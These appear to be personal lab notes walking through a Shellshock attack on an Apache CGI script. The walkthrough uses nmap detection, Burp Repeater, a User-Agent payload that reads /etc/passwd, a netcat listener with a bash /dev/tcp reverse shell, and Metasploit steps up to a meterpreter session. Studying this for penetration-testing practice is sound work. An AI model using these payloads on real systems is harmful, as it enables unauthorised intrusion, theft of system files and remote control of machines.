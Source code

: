 
-- Demo --- 
 
- perform service detection scan on target to confirm apache running 
- visit the ip in browser 
	- identify CGI script on webpage (look at page source) ![[Pasted image 20230710132143.png]]
	 the cgi script is passing commands in bash you can use this as input vector but before that you need to check if this system is vulnerable to shellshock explotation -> check in nmap 
- Check if system is vulnerable to shellshock: nmap -sV ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 
	- `--script=http-shellshock`: This option specifies that you want to use the `http-shellshock` script. Shellshock is a vulnerability in the Bash shell that allows remote code execution. The script is designed to detect if the target web server is vulnerable to this specific vulnerability.
	- `--script-args "http-shellshock.uri=/gettime.cgi"`: This argument provides additional parameters to the `http-shellshock` script. In this case, it sets the URI (Uniform Resource Identifier) to `/gettime.cgi`, which is the path of a specific CGI script on the target server. This allows the script to test the vulnerability specifically on that CGI script.
	- go to the browser and visit targetip/cgi link - configure Mozilla with foxyproxy - select Burp so all the traffic is redirected to Burp ![[Pasted image 20230710133011.png]]
- Open up Burb: 
	- go to proxy and make sure intercept is on 
	- make get request to cgi script in browser 
	- send incoming get request in burp to repeater 
		- in repeater get rid of user-agent and replace them with own characters: () {   :;    } ; echo;   echo;  /bin/bash -c 'cat   /etc/passwd'![[Pasted image 20230710133404.png]] ![[Pasted image 20230710133525.png]]
- gain a reverse shell on the target system 
	- set up a listener with netcat: nc -nvlp 1234 
	- open in burp: 'bash -i>&/dev/tcp/your-kali-ip/port-listner 0>&1' ![[Pasted image 20230710141925.png]]
		- - `bash -i`: This starts an interactive Bash shell with the `-i` option, allowing for interactive input/output. the main difference between interactive (`-i`) and non-interactive modes in Bash is the level of interactivity and the availability of certain features within the shell session. Interactive mode provides a more interactive and dynamic shell environment, while non-interactive mode is typically used for running scripts or commands that don't require user interaction.
		- `>&/dev/tcp/your-kali-ip/port-listener`: This redirects both the standard output and standard error streams to a TCP connection established with the specified IP address and port. You need to replace `your-kali-ip` with the actual IP address of your Kali machine, and `port-listener` with the desired port number for the listener.
		- `0>&1`: This redirects the standard input (file descriptor 0) to the standard output (file descriptor 1). `, it means we are redirecting the input of the command to the same place where the output is going.
	- Now you have a reverse shell
		- Run whoami 
		- cat /etc/\*issue 
		- uname -a 

How do we exploit this vulnerability in metasploit? 
- msfconsole 
- search shellshock 
	- we have aux module and exploit module 
	- use exploit and specify the options including path to cgi script 
	- you have meterpreter session 
		- sysinfo s
		- elevate privilege's 
